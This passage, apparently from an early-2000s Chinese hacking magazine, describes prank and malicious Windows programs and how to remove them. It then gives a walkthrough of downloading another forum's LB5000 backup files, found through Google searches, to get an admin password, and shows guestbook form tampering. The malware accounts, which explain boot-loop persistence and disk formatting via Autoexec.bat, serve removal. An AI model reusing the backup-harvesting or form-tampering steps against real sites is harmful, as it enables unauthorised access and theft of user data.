```

要说明的是，不要试图导入 REG 文件来修改注册表，此方法根本行不通，因为任何程序和文件都运行不了。如果不想用 `Scanreg/restore` 命令恢复以前备份的注册表，我们可以这样破解它：找到 Regedit.exe 文件，将其改名为屏幕保护文件 Regedit.scr，拷贝到 C:\Windows\system 下，然后右键点击桌面，在弹出菜单中选“属性”，这样就会打开“显示属性”对话框，点击其中的“屏幕保护程序”标签，在屏幕保护程序下拉列表框中找到这个新“屏保” Regedit.scr，点击“预览”按钮就可打开注册表编辑器，然后，你就可以将上述注册表键值改回来。最后把收藏夹中的这个网址 `http://www.haha168.com/pages/016/meimei.htm` 删除，即可安全清除阴魂不散。

### 15 PinWheel

发作表现：执行该程序以后，将出现一个具有3种圆环在转动的窗口，3种圆环的分布从核心向外分别是：逆时针旋转的圆环、由内向外扩张的同心圆环和由外向内挤压的同心圆环，3种圆环结合在一起以后就会让人感到非常晕眩。

破解方法：忍住头晕，“挣扎着”关闭当前窗口即可退出。

### 16 桌面便便

发作表现：执行该程序后，将开始将你的屏幕锁定，一个小人开始在你的屏幕上到处走动，你可以用鼠标拖动他移动，如果你用鼠标左键点击他，那么他就会发怒，开始在你的桌面上拉便便。如果你用鼠标右键点击他，那么他就开始拉便便并将拉出来的便便塞进嘴里吃掉，挺恶心吧！该软件用来恶心别人倒不错。发给你朋友吧！让他吃饭的时候看！

破解方法：按键盘上的除 F10、Tab、Alt 等少数几个键以外的任意键即可。

### 17 妖之吻

发作表现：运行妖之吻主程序 yzw.exe 后，屏幕上会出现一个不太好看的窗口，上面写着“亲爱的，给你一个关机之吻”，同时在窗口中显示 60、59、58……这样的倒计时数，等计时到“0”时系统就自动重新启动。当你再次听到 Windows 的启动声音，那个可恶的“亲爱的，给你一个关机之吻”又出现了，然后再次重启，如此反复，陷入一个死循环中，使你根本无法进入你的系统。同时，作者屏蔽了 Ctrl+Alt+Del 组合键，按这3个键无法终止该程序。

软件原理：妖之吻运行后会修改 system.ini 文件，将其中的 `shell=explorer.exe` 改为了 `shell=c:\yzw.exe`。当你再次开机时，所谓的妖之吻会被自动加载运行。从这里可以看出，妖之吻用自己的主文件代替了 Windows 的 explorer.exe 文件。explorer.exe 是 Windows 的外壳程序，在 Windows 启动的时候要加载它。由于 yzw.exe 和 explorer.exe 的启动运行不一样，因此中了妖之吻之后，修改注册表和 win.ini 没有用。而且你不能删除 yzw.exe，一旦删除它，Windows 就会提示报错，要你重新安装 Windows。注：这里 `c:\` 代表绝对路径，如您是在 `d:\` 下运行的 yzw.exe，相应的 shell 就为 `d:\yzw.exe`。

破解办法：由于妖之吻是在 system.ini 中作怪，我们到那里把它消灭就可以破解它了。具体方法是：机子重启后按 Shift+F5 进入 Command prompt only 方式，键入命令 `edit system.ini` 编辑 system.ini 文件，把其中的 `shell=绝对路径\yzw.exe` 改为 `shell=Explorer.exe`，存盘退出，再重启机子就可以了。

## 18 Droppings

##### 发作表现

某天（事后想起就是愚人节那天），某友发给你某个软件。执行该程序以后，你的鼠标就不听话了：在移动的过程中会在屏幕上留下痕迹，而且每隔 3 秒，就会在你的屏幕上留下 1~4 个小黑块，时间稍稍长一些，你的屏幕就会满是小黑块了。不要以为是自己的鼠标坏了，更不要以为是显示器坏了而去买个新的——把这台给我我不嫌弃 :)！其实，你刚刚运行的是 Droppings，这是个恶作剧软件，运行后就会像上面说的那样，不过请放心，它对你的硬盘数据和文件系统不会有所破坏。

##### 破解方法

将鼠标移到左上角时就会弹出一个关于窗口，然后选择“Close”即可退出。

## 19 Protect

##### 发作表现

Protect 在运行后会破坏系统的显示模式，首次运行没有效果，下次开机后就始终是 640×480×16 的显示模式，这样的分辨率只适合 14 英寸显示器。对于现在使用大显示器的我们来说，这个分辨率太低了些，这么低的分辨率对我们的眼睛很好，要想把分辨率和色彩数改过来也不是很容易的事，不动点脑筋是无法成功的。

##### 破解方法

清除办法很简单，只要在纯 DOS 下删除 `C:\WINDOWS\SYSTEM\ProtectBoy.com` 文件，系统就可以正常，然后再用你的杀毒软件杀一下 C 盘就万事大吉了。

## 20 捣乱鼠标

##### 发作表现

执行该程序以后，鼠标开始不听使唤而乱动，鼠标会尽量向当前窗口的右上角移动并点击“关闭”按钮，直到关闭所有窗口。

##### 破解方法

按下 “Ctrl+Alt+Del” 组合键，选择该程序的进程并执行“结束任务”按钮。或者你也可以注销当前用户或重新启动电脑，一样可以解决鼠标不听使唤的烦恼。

## 21 Crazy_ncs

##### 发作表现

执行该程序以后，会弹出一个窗口，在该窗口中可以设置 Num Lock、Caps Lock 和 Scroll Lock 3 个键是否锁定的时间间隔，默认时间间隔为 10 秒，设置完成后按 “OK”，那么这 3 个键的指示灯就会在设定的时间间隔内开始亮或者灭。如果时间间隔选择不是一样大小并且都比较短，那么这 3 个灯的闪烁就非常好看了！

##### 破解方法

将你的鼠标移到屏幕左上角，系统会弹出一个该程序的关于窗口，你只要点击 “Close” 按钮即可。

## 22 布莱尔之夜

##### 发作表现

布莱尔之夜的主程序文件名为 blair.exe，不小心运行了 blair.exe 后会出现一个阴暗的画面，画面中间仿佛是中世纪的一个阴暗城堡，很恐怖哦！如果你想通过按 Ctrl+Alt+Del 组合键来终止它的运行，那是不可能成功的！作者早就考虑到了这一招，把热键都给屏蔽掉了！正当你对着这个讨厌的画面一筹莫展时，电脑自动重新启动了！当可爱的 Windows 桌面出现时，那个讨厌的阴暗画面也随之出现了！等 5 秒钟左右，电脑又被重新启动，于是一个循环又开始了！最可恶的是，作者把 Alt+F4 也给屏蔽了！这样我们就不能通过关闭窗口，然后再检查注册表或 Win.ini、System.ini 等文件，来对付这个恶意程序。

##### 软件原理

原来，blair.exe 被运行后，除了屏蔽了所有热键外，还在 `C:\Windows` 下生成 syswf.exe 文件，大小仍为 252,416 字节，并且在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下建立串值 syswf，其键值为 `C:\Windows\syswf.exe`，这使得 syswf.exe 在系统启动时被加载，因此造成重启不断、循环不止。

##### 破解办法

- 方法1：当 blair.exe 被运行出现那个阴暗的画面之后，赶快按 F11 键 2 秒以上，就会弹出个对话框，上面写着“布莱尔之夜已成功卸载，请重新启动计算机”，按对话框上的“确定”键机器就会重新启动，这样就成功解锁了！但是，`C:\Windows` 下的 syswf.exe 文件并没有被删除，还得把它删除才算真正地清除了布莱尔之夜。
- 方法2：布莱尔之夜由于没有替代 Windows 的外壳，因此可以重启电脑到“安全模式”下，然后将 `C:\Windows` 下的 syswf.exe 文件和注册表中的串值 syswf 删除，到此就可以了。

## 23 Diskboom

##### 发作表现

如果你的屏幕无端出现一个 DOS 框，并有一行英文 “your system is now locked by diskboom, please reset”，那就证明你中了最无耻的 Diskboom 了！这时候你千万不要按屏幕上的提示去重新启动计算机，因为那样的话，你就再也找不到你的硬盘了，就算光盘引导、软盘引导都无效！

##### 破解方法

你应该去黑客网站下载一个 Diskboom（如果不幸中招了，那么去朋友家或者网吧下一个，千万不要扔掉硬盘哦^-^），然后把压缩包里面的恢复程序复制到一张系统盘，在盘上建立一个 Autoexec.bat 文件，第一行输入“恢复程序.exe”，目的是自动执行恢复程序，这一点是最关键的，readme 里面没说明。最后，拿这张盘引导系统，如果你看到屏幕上出现 “unlocked” 提示，就说明你的硬盘又“活”了，赶快感谢老天爷吧！

## 24 Random Burper

##### 发作表现

这个软件用来和朋友开玩笑比较不错，因为执行该程序以后，将发出打嗝的声音和其他噪音，而且在发声前，该程序会自动将用户的声音调到最大，在声音结束会恢复原有设置（图9）。这样的软件一定很令对方头疼，它就是 Random Burper，一个纯粹的恶作剧软件，对你的系统不会有任何破坏。

图 9

##### 破解方法

将鼠标移到屏幕左上角时就会弹出一个关于窗口，然后选择“Close”即可退出。

## 25 Downhoax

##### 发作表现

如果某一天，你执行了一个别人发来的软件，运行后出现一个从互联网上下载软件的窗口，从窗口的标题栏上还可以看出正在下载的文件名是随机的，而且每次都会不一样，是不是很害怕了？哈哈，还没完，如果你想取消下载而点击“Cancel”按钮，那么所有进度显示百分比和进度条都会归零而重新开始！你是不是以为它又来了一次？你是不是以为这是病毒或黑客软件？哈哈，其实这只是个可以运行在 Windows 95/98/Me/NT/2000/XP 下的系统恶作剧软件——Downhoax！

##### 破解方法

下载完成将弹出一个窗口，它会显示当前实际上什么都没有下载，仅仅是一个玩笑而已。你只需选择“Close”即可退出。

## 26 limit

##### 发作表现

运行后，会导致 Windows 98/Me 用户无法执行任何应用程序，系统功能受限。不过请放心，系统文件是不会受到破坏的。但是，如果不懂得解法，也很吓人——任何应用程序都无法运行了。如果是你遇到这样的事情会怎么办？

##### 破解方法

作者提供了破解器 limitkill.exe，运行此文件后重新启动计算机或注销当前用户来重新登录，会使系统恢复到正常！可能有朋友要问了：“该软件运行后能锁住计算机里的所有程序，你将不能运行包含 limitkill.exe 文件在内任何应用程序。但要运行 limitkill.exe 文件该怎么办呢？”是的，这的确是个问题！不过，我们可以利用一个小窍门嘛。窍门就在这里：打开“我的电脑”，点击“计划任务”，再点击“添加已计划的任务”，将破解器 limitkill 加入到计划任务里，选择“当启动计算机时”即可。

## 27 年少无知修改版本

##### 发作表现

年少无知适合在 Windows 2000/XP 系统下使用，该软件体积很小，可以和其他程序捆绑，这样更容易上当受骗。运行后会修改注册表，如果对方不熟悉注册表，就得重装系统。该恶作剧程序破坏性极大，请那些想和别人开玩笑的朋友一定要清楚：自己在做什么。

##### 破解方法

用以前备份的注册表恢复即可。

## 28 网恋绝招

##### 发作表现

如果你不小心执行了 lovetty.exe，就会出现如图所示画面（图10），并从 30 开始倒计数，到了 0 系统就自动重新启动了！系统启动后并不直接进入 Windows，而是又进入网恋绝招的倒计时界面，如此循环下去……程序屏蔽了绝大多数的热键，你不能通过 Ctrl+Alt+Del 等热键终止程序运行。想到“安全模式”下？还是不行！会提示你“装载 c:\lovetty.exe 失败，必须重新安装 Windows”。

##### 软件原理

是不是觉得该软件和“妖之吻”很相像？其实这个软件本来就是模仿“妖之吻”编制的。

图 10

当 lovetty.exe 被运行后，第一个动作就是将 System.ini 文件里 `[boot]` 下面的第二行变为 `shell=绝对路径\lovetty.exe`，目的是将自身写进 System.ini 文件里，替代 Windows 系统的外壳程序 explorer.exe，然后开始以下循环：进入倒计时→关闭 Windows 系统→重新启动系统。只要系统运行到 `shell=绝对路径\lovetty.exe` 这一项时，就会重新执行网恋绝招，从而使系统陷入上述恶性循环。

##### 破解办法

由于网恋绝招与妖之吻的实现原理一样，因此清除方法也大致相同。

- 方法1：作者其实留了个“后门”。仔细看上图中所示画面，找到屏幕下端最后一行字：“解决就一种，本界面上就有出口，你慢慢找吧！”哈哈，“后门”就在这行文字中，确切地说就在那个“解”字上。用鼠标点击那个“解”字，就解除了恶性循环，也就安全地解除了网恋绝招的控制！
- 方法2：大家都知道 Windows 的窗口可以用组合键 Alt+F4 来关闭，在这里这个组合键依然有效。在您第一次运行 lovetty.exe 文件、出现网恋绝招的倒计时界面的时候，按 Alt+F4 键可以关闭这个窗口，然后点击“开始”→“运行”，在“运行”对话框中键入 msconfig.exe 回车，这样就打开了系统配置实用程序，点击 system.ini 标签，找到 `[boot]` 小节，把 `shell=lovetty.exe` 改成 `shell=Explorer.exe`，这样就彻底解决了网恋绝招。

## 29 恶作剧之王

##### 发作表现

恶作剧之王是个恶意程序，前面提到的那些恶意程序和它相比，简直是小巫见大巫！前面介绍的那几个程序有一点好处，它们都不破坏硬盘数据。但恶作剧之王就不同了，如果你处理不当，它就会格式化你的硬盘，使你所有的资料都被删除！恐怖吧？

下载解压后只有一个文件 Sex.exe，图标是一个 MM 的头像（图11），如果你想入非非，用鼠标双击运行了这个程序，它会让你大失所望——屏幕上出现了克林顿的头像（图12）！此时你一定得加倍小心，千万不要去碰他的左眼，只要一碰他的左眼，就会弹出来一个窗口，上面写着“你一定想按回车键吧。”如果你按了回车键，系统将会重新启动，并格式化所有的硬盘。如果没碰到头像的左眼就不会有事。

##### 软件原理

这到底是怎么回事呢？原来，当你的鼠标指向那个左眼后，程序就向 `C:\Windows\temp\Vbe` 下复制一个副本文件 Sex.exe，然后向 Autoexec.bat 中写入快速格式化命令，从最后一个盘格式起，然后锁定你的鼠标，只要你按回车，便立刻重启并切换到 DOS 格式（主要是因为在 Windows 下无法格式化 C 盘）。在程序退出之前，自动执行一次 Autoexec.bat，此时已经开始格式盘了！当到了系统所在分区，就重新启动机器。重新启动后，开始在纯 DOS 下再一次格式盘，由于使用了快速格式化命令，很快你的硬盘就开始洗澡了。呵呵。即便你的系统中的 Format.com 早已被你删除掉也没有用，作者在程序中采用了文件流的方法，检测是否存在 Format.com，如果不存在就生成一个（恶毒啊）。程序在运行后就锁定了系统功能键和鼠标，同时修改了 msdos.sys 文件，加入了 `BootKeys=0` 这一行，目的是使启动功能键无效，也就是使 F4、F5、F8 这些功能键无效。如果没碰到头像的眼睛，就不会激活格式化功能，因此就不会有什么事了。

##### 破解方法

- 方法1：如果你的鼠标没有点在头像的左眼上，此时千万不要乱动，赶快运行进程管理软件终止进程 `sex.exe` 即可。大家常用的软件如 Windows 优化大师中就有进程管理功能，点“系统安全优化”→“进程管理”，就可以看到 `sex.exe` 这个进程，选中它，点击“终止”即可终止 `sex.exe` 的运行。好了，那个讨厌的家伙从屏幕上消失了。问题得到解决！
- 方法2：如果你的鼠标已经点在它的左眼上了，那就立即关机（1 秒钟都不要犹豫），由 A 盘启动，并检查 C 盘是否被格式掉了。如果没有被格式掉，可以删除 Autoexec.bat 和 `C:\Windows\Temp\Vbe` 下的 `SEX.EXE`，然后进入 Win98，使用 RecoverNT 恢复后面的分区。如果你的动作像蜗牛，那你的硬盘肯定全被格式掉了！此时可以试一下 UNFORMAT，不过，只能恢复 FAT16 的硬盘哦。

## 30 Headache

##### 发作表现

执行该程序以后，将会出现一个警告窗口并询问是否继续该程序。如果选择“Yes”，让你头痛的事情就会发生：显示器一阵乱闪，使你头晕目眩，绝对会让人头痛无比！

##### 破解方法

还好，这只是个纯粹的恶作剧软件，不会破坏数据。用鼠标点击屏幕或按键盘的任意键即可退出。推荐愚人节使用！

上面介绍的恶作剧软件网上都有下载，需要做实验的朋友可以自己去找，请不要用来搞破坏。另外，除了江民炸弹、FUHD、阴魂不散等部分程序外，其他程序用杀毒软件大都查不出来，因此要记住上面的方法哦。不要随意运行来历不明的程序就不会有事的。如果你不主动运行它们，它们又能怎么样呢？可以说这是防范恶作剧软件的最好的办法！愿大家愚人节过得开心、快乐！

### 对雷傲 LB5000 论坛最新漏洞的利用

雷傲论坛是个挺不错的论坛，它有着访问速度快、易操作、可移植性高等多种优点，算网络中人气值较高的论坛之一！本篇文章是关于该论坛最近出现的新漏洞进行的分析，希望能为提高论坛的安全性有所帮助！

文／欲望之翼

作为一个网络爱好者，经常喜欢去冰河的“安全焦点”，因为那里的安全漏洞公布比较快。今年 1 月 8 日发现雷傲 LB5000 论坛 XP 版出现了一个漏洞，具体如下：

#### LB5000 XP 普遍存在的漏洞

- 原创：kxxz（cool）
- 版本：雷傲 LB5000 XP 所有版本（包括部分特殊操作的其他版本）
- 本地漏洞：非
- 远程漏洞：是
- 漏洞原因：坛主级别管理员操作备份文件不当
- 漏洞后果：数据库包括帖子、注册用户资料、论坛全部设置等各备份文件被远程下载，资料泄露。

详细描述：坛主利用 adbackup.cgi 文件备份（LB5000MX 版本也可以这样备份）将备份文件留在 non-cgi 目录下面，没有被删除并留下 tarfilelist.txt 文件。这样，任何人都可以利用 1st 打开 tarfilelist.txt 文件，里面是备份信息，最主要的是包括备份文件的文件名，文件名后加 s.tar 就是系统设置的备份文件，加 m_*.tar（* 为 1、2、3、4……看文件多少而定）其他的是帖子的备份、短消息等。用户库备份文件中有用户的所有资料包括密码，如果在其他地方恢复论坛备份文件，就可以像坛主一样查看用户信息和“*”密码。

用 Google 搜索了 non-cgi/tarfilelist.txt，结果一般，然后换了 cgi-bin/leoboard.cgi，搜索到很多，只能测试了几个。一个是 lbmx 版的，有这个漏洞，找到了它的 tarfilelist.txt，内容如下：

- 备份时间：2002/11/28 16:17
- 文件名：lbLBHDF67****（**** 是字母）
- 此次备份总文件数：53609
- 用户资料文件数：20627 ***（用户资料哦）
- 用户自定义头像数：5
- 系统配置文件数：66
- 帖子文件数：27599
- 附件文件数：56
- 短消息发件箱文件数：4937
- 短消息收件箱文件数：319
- 备份的论坛如下：
  - forum8  安全漏洞
  - forum2  黑客之初
  - forum1  黑客进阶
  - forum5  漏洞公布
  - forum11 灌水天堂
  - forum13 情感交流
  - forum18 游戏天堂
  - forum19 病毒专区

请务必保持包文件完整，不要改动过本文件（以上略去一些）。

一个黑客技术论坛居然也有这样的漏洞，相信它的管理员不经常看一些安全漏洞，当然我看是没有来得及看吧。

然后就按方法下了它的备份数据，得到了管理员的密码，当然没有去破坏了。我想他们也很快就会发现了，毕竟是搞网络的。

#### 解决方法

最简单的方法，如果能用 FTP，可以把 tarfilelist.txt 改名，恢复备份时再改回来。没有 FTP 权限的管理员备份后下载并删除所有备份文件！

写这个并不是让大家去攻击论坛，只是想说明这个事情而已，最后请各位论坛管理员尽职尽责，创造安全良好的网络环境！

### 对留言板的简单测试



一般情况下，大多数的个人主页都是申请免费的留言板，但免费的留言板往往有很多差强人意之处。这篇文章就是作者在面对一个免费留言板的一些安全隐患，与朋友玩闹之时使用这种方式来恶作剧也许不错！

文／东方飘云

今天在网上乱逛，逛着逛着就到了 xhacker 的网页，制作虽然简单，但是内容还不错，值得一看（推荐）。对于公布自己心得的人，我一向很尊敬，于是就点击留言板给 xhacker 留言（留言板为免费留言板，和 xhacker 的技术无关）。看到留言板里可供选择的头像很少，于是就想到做一个小测试，看是否可以自己 DIY 一下！

查看网页的源文件，先来试着更改一下来源所在地，查找 `<option value`，我们看到了很多可选的城市。复制一行的代码，把城市改成我们希望在网页里出现的地方（改成天堂怎么样？）如图 1 所示。



然后就要 DIY 自己的头像了。查找 `<option select`，是不是看到了一个头像列表？同样，我们再复制一行代码，在 value="" 里填入我们想显示的头像的 URL（我的头像是在 94cool.org 里找的，看看域名，“就是酷！”），在说明里改成头像 41。如图 2 所示。



全部都 DIY 完了，我们怎么发帖才能显示出来呢？这就要把文件保存到本机里。之前我们先查找 `<form`，在 action="" 里填入提交的绝对路径（编写程序时都是相对路径），然后点“文件→另存为”，保存为 .htm 文件就可以（我这里保存为 a.htm）。如图 3 所示。



双击打开刚才保存在本机里的网页文件，在里面选择我们刚才修改的部分，再加上一些问候的话，提交啦！看看效果吧！如图 4 所示。

后话：也可以在用户名处用 `<head>`，显示的时候会认为是 HTML 的源码部分，被过滤掉。显示的用户名就是空啦！



某些小网站或个人主页，为了达到其增加访问量的目的修改系统设置（甚至是一些无聊的恶作剧），非常令网友们反感！本文的作者将从亲身经历来谈谈这方面的问题。


### 小谈网页垃圾

文／kasicass·安全天使

当我们在浩瀚的网络中冲浪时，常会碰到一些令人讨厌的网站，将它们的网址自动设为我们浏览器的默认主页，甚至修改我们的系统设置……实在是烦不胜烦。这里，笔者就用自己的经历来谈谈这些垃圾的工作原理及清除方法。

一日冲浪，误入一网站，即发现 IE 的首页被改成了 www.xxx.com，而且电脑每次启动都会自动打开 IE，试图访问这个网站。当时心想，这个容易，不就是修改了注册表吗？改回来就 OK 了。运行 regedit，查找键值为 www.xxx.com 的项，将其删除或改为自己希望的网址（图 1）。



